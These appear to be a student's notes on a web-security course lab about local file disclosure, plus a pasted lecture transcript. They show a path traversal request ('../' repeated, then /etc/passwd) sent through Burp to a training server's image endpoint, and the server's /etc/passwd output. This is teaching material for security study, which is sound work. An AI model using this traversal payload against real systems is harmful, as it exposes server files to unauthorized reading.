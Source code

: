 Analysis of LFD lab:-    http://lfi.naham.sec:8081/

to find the Local file disclosure like    /etc/passwd.

lets go to lab and start the analysis.


the page only have cat photos and gif that is (i.e it allows more than single format of file, that is jpg, gif), hence we can rule out that the file format( file extension) might have been hard coded  i.e that we are in a hardcoded directory like .png or .jpeg and need to escape out of it using  ? , so we dont need to try and exit out of a file format (using    ? )
![[Screenshot From 2025-03-03 16-48-29.png]]




What are we going to do is we're going to look at the source of this page and we can see that here there
is an energy source that's relying on the image endpoint with the file parameter and it points to a

JPEG image.
![[Screenshot From 2025-03-03 17-00-38.png]]




we are going to type and to fetch the file for



it etc/passwd by giving it the root folder, /etc folder and the password file   /passwd.

/etc/passwd   as shown in below ss



![[Screenshot From 2025-03-03 17-05-32.png]]
It comes back and says file not found.


This could be for multiple reasons.


One, it could be because we are either in a hard coded directory, which means that we have to escape


out of it with a directory traversal or we have to escape the format file for whatever it's hardcoded.


So in other words, if it's expecting a JPEG at the end, you have to escape out of it.


But based on the view source that we saw, it looks like it ignores the extension because it takes both gif and jpg.

So we can kind of assume that it's not a hard coding any extensions, but there is something we've got

==to figure out in order to get to the file that we want to fetch.==

==So for this case, as I mentioned, we expect it to be a directory traversal.==



==So we're going to traverse as many directly as we can.==
![[Screenshot From 2025-03-03 17-17-03.png]]

==Again, if you do extra directories, it doesn't matter.==
In Linux, you can add as many as you want and you're going to say etc/passwd or password.

And that is going to bring on the file that we asked for, which is a local file on this server that's
not on the website's root directory.

![[Screenshot From 2025-03-03 17-17-29.png]]


PS: Burp repeater view
![[Pasted image 20250303171845.png]]

Burp repeater Request
```
GET /image?file=/../../../../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: lfi.naham.sec:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=4

```

Burp repeater Response
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 03 Mar 2025 11:46:54 GMT
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
Content-Length: 1289

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

```

---
==**Imp explaination of LFD :-**== 



1
00:00:00,330 --> 00:00:04,770
That's the kind of example in this case we can see that this website is showing us some cat photos,

2
00:00:05,130 --> 00:00:10,380
but unfortunately there is no other links or any other functionality available to us.

3
00:00:10,500 --> 00:00:12,770
So, in other words, it's not always easy.

4
00:00:12,780 --> 00:00:15,670
It's not obvious when it comes to looking for vulnerabilities.

5
00:00:15,750 --> 00:00:20,130
What are we going to do is we're going to look at the source of this page and we can see that here there

6
00:00:20,130 --> 00:00:26,040
is an energy source that's relying on the image endpoint with the file parameter and it points to a

7
00:00:26,040 --> 00:00:26,880
JPEG image.

8
00:00:26,940 --> 00:00:27,990
So we're going to click on this.

9
00:00:28,270 --> 00:00:35,050
As expected, it opened up our file CAT five, and we can try and do a cat for to see if this works.

10
00:00:35,130 --> 00:00:38,780
There's no false ground we can look here, says Cat four as a gif.

11
00:00:39,180 --> 00:00:45,870
So I'm going to change this and it loads it for us so we can see that it's working based on our slides.

12
00:00:45,880 --> 00:00:49,260
We talked about checking and seeing if this is actually a vulnerability.

13
00:00:49,770 --> 00:00:54,390
So we're going to give it a dot slash, meaning that we want to look for the current folder and get

14
00:00:54,390 --> 00:00:56,940
the cat for dot gif.

15
00:00:57,180 --> 00:01:06,740
So now we're going to go back to our training site and we are going to type and to fetch the file for

16
00:01:06,740 --> 00:01:14,640
it etek password by giving it the root folder, ETSI or ETEK folder and the password file.

17
00:01:14,940 --> 00:01:16,770
It comes back and says file not found.

18
00:01:17,220 --> 00:01:18,810
This could be for multiple reasons.

19
00:01:19,050 --> 00:01:24,930
One, it could be because we are either in a hard coded directory, which means that we have to escape

20
00:01:24,930 --> 00:01:31,040
out of it with a directory traversal or we have to escape the format file for whatever it's hardcoded.

21
00:01:31,090 --> 00:01:35,310
So in other words, if it's expecting a JPEG at the end, you have to escape out of it.

22
00:01:35,310 --> 00:01:40,650
But based on the view source that we saw, it looks like it ignores the extension because it takes both

23
00:01:40,800 --> 00:01:42,510
gif and jpg.

24
00:01:42,780 --> 00:01:47,970
So we can kind of assume that it's not a hard coding any extensions, but there is something we've got

25
00:01:47,970 --> 00:01:51,510
to figure out in order to get to the file that we want to fetch.

26
00:01:51,570 --> 00:01:56,460
So for this case, as I mentioned, we expect it to be a directory traversal.

27
00:01:56,460 --> 00:01:58,660
So we're going to traverse as many directly as we can.

28
00:01:59,090 --> 00:02:01,380
Again, if you do extra directories, it doesn't matter.

29
00:02:01,380 --> 00:02:05,990
In Linux, you can add as many as you want and you're going to say ETSI password or password.

30
00:02:06,000 --> 00:02:11,910
And that is going to bring on the file that we asked for, which is a local file on this server that's

31
00:02:11,910 --> 00:02:13,650
not on the website's root directory.